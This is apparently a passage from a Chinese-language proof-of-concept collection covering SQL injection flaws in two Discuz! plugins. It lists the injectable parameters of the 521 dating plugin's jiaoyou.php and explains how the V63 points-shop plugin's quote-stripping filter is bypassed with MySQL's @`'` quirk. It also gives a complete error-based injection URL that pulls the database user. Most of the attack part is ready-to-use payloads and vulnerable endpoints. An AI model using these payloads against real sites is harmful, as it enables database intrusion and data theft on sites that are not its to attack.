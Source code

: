 参考链接：https://www.seebug.org/vuldb/ssvid-93616
#### 演示8：Discuz! X2.5 521交友插件 jiaoyou.php SQL注入漏洞
http://ip/jiaoyou.php?pid=1

http://ip/jiaoyou.php?mod=search&residecity=

http://ip/jiaoyou.php?mod=search&resideprovince=

pid、residecity、resideprovince参数均存在SQL注入

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/15.png)

参考链接：

https://www.unhonker.com/bug/1058.html

https://www.seebug.org/vuldb/ssvid-93641

https://www.seebug.org/vuldb/ssvid-93641
#### 演示9：Discuz! X2 V63积分商城插件 SQL注入漏洞
在discuz v63积分商城插件注入漏洞exp中并不需要斜杠、#号和—注释符。所以会执行$clean = preg_replace(“/’(.+?)’/s”, ”, $sql);原来SQL语句中两个单引号中间的内容就会被替换为空。并不会进入到下面的else分支。Else下面的所有操作均是对$clean变量的操作。所以绕过的思路就是把SQL语句放在两个单引号中间。对于mysql的一个特性， @`’` 是为空的，所以我们的攻击语句可以放到两个@`’`中间，即使GPC开启，单引号被转义为\’，而@`’`变成@`\’`对注入也是没有影响的，所以此绕过方法无限制。
即针对该注入漏洞的攻击EXP为：
http://www.cnseay.com/discuz/plugin.php?id=v63shop:goods&pac=info&gid=110 or @`’` and (select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b) or @`’`  or @`’` and (select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b) or @`’`
